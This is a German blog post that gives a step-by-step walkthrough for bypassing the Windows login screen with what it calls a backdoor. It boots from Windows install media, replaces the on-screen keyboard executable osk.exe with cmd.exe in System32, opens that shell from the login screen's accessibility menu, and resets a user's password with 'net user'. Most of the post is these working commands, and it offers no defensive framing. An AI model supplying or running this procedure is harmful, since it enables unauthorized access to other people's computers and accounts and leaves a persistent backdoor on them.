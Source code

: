 <div id="particles-js" class="background" ></div>
<script type="text/javascript" src="js/particles.js"></script>
<script src="js/app.js"></script>
---
layout:     post
title:      Windows Login umgehen (backdoor)

date:       2021-05-01
author:     user

summary:    Windows Login umgehen (backdoor)
categories: Login
thumbnail:  cogs
tags:
            - Windows
            - Login
            - Passwort
            - umgehen
            - backdoor
            - Hintertür
---

## Windows Login umgehen (backdoor)

Was wir brauchen:

1. Original Image von Windows (.iso)
2. Bootable USB


Vorgehensweise:

1. Von Windows-USB-Stick booten
2. Computerreparaturoptionen
    ![Thumper](https://i.imgur.com/cgOS11f.jpg) 
3. Problembehandlung
    ![Thumper](https://i.imgur.com/XZsOGe0.jpg)
4. Eingabeaufforderung
    ![Thumper](https://i.imgur.com/MdtXTKA.jpg)
5. Auf C-Platte wechseln
```
C:
```
6. Dann in den Windows Ordner
```
cd Windows\System32
```
7. osk = on screen keyboard (Bildschirmtastatur)
```
dir osk.exe
```
8. Original umbenennen
```
rename osk.exe osk.orig.exe
```
9. cmd.exe zu osk.exe kopieren
```
copy cmd.exe osk.exe
```
10. überprüfen
```
dir osk*
```
10. PC neustartem
11. Erleichterte Bedienung > Bildschirmtastatur - Es wird allerdings cmd.exe gestartet weil wir diese ja zuvor ausgetauscht haben
12. net user *USERNAME* *NEUES PW*
```
net user eski 1234
```
13. Einloggen
